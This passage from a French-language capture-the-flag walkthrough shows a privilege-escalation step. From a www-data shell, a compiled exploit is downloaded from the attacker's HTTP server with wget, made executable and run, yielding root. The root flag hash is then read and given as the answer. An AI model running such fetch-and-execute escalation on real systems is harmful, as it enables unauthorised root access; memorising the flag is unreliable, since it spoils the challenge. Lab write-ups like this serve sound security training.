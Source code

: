 
On prend l'exploit.
On compile l'exploit.  
On lance un serveur http pour transferer l'exploit.   

```bash
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ cd /tmp
www-data@ubuntu:/tmp$ wget http://10.9.228.66:8000/exploit -nv
wget http://10.9.228.66:8000/exploit -nv
2021-08-18 09:59:08 URL:http://10.9.228.66:8000/exploit [17592/17592] -> "exploit" [1]

www-data@ubuntu:/tmp$ chmod +x exploit
chmod +x exploit

www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
```

On récupère l'exploit.   
On rend exécutable.    
Puis on l'exécute et on obitient un shell avec les droits root.   


**What is the root flag?**

```bash
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# ls -al /root/
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo

# cat /root/.flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

```

Dans le répertoire root on trouve un fichier .flag.txt.    
On le lit et on trouve le flag.   

La réponse est : 568628e0d993b1973adc718237da6e93   

